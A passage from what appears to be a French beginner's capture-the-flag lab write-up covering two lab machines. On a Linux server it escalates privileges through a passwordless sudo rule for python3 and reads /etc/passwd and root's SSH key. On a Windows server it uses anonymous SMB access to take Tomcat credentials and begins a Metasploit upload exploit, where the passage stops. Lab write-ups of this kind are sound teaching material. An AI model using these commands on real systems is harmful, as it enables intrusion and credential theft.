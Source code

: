 **En clair, pour un débutant** : Nous avons trouvé que le serveur web utilise une version vulnérable d'Apache, puis utilisé un exploit public pour obtenir un accès au système.

#### Post-exploitation et élévation de privilèges

```bash
# Vérification des privilèges actuels
whoami  # www-data
id      # uid=33(www-data) gid=33(www-data)

# Recherche de vecteurs d'élévation de privilèges
sudo -l
# Résultat : (ALL : ALL) NOPASSWD: /usr/bin/python3

# Élévation de privilèges
sudo python3 -c 'import os; os.system("/bin/bash")'
# Résultat : Shell root obtenu

# Extraction d'informations
cat /root/flag.txt  # FLAG{web_server_compromised}
cat /etc/passwd     # Liste des utilisateurs
cat /root/.ssh/id_rsa  # Clé SSH privée du root
```

**En clair, pour un débutant** : Après avoir obtenu un accès initial, nous avons découvert que l'utilisateur www-data peut exécuter Python en tant que root sans mot de passe, ce qui nous a permis d'obtenir un accès complet au système.

### Machine 2 : Serveur Windows (10.10.10.100)

#### Reconnaissance et énumération

```bash
# Scan détaillé
sudo nmap -sS -sV -sC -p- -oA machine2 10.10.10.100

# Résultat du scan
# 135/tcp  open  msrpc   Microsoft Windows RPC
# 139/tcp  open  netbios Microsoft Windows netbios-ssn
# 445/tcp  open  smb     Microsoft Windows SMB
# 3389/tcp open  rdp     Microsoft Terminal Services
# 8080/tcp open  http    Apache Tomcat 9.0.30
```

**Analyse** : Le serveur exécute Windows avec SMB et Tomcat 9.0.30 exposé sur le port 8080.

#### Exploitation

```bash
# Énumération SMB
enum4linux-ng -A 10.10.10.100
# Résultat : Partage "Backups" accessible anonymement

# Accès au partage SMB
smbclient //10.10.10.100/Backups -N
smb: \> ls
smb: \> get tomcat-users.xml
smb: \> exit

# Examen du fichier récupéré
cat tomcat-users.xml
# Résultat : Identifiants Tomcat trouvés (admin:P@ssw0rd123)

# Exploitation de Tomcat
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.10.100
```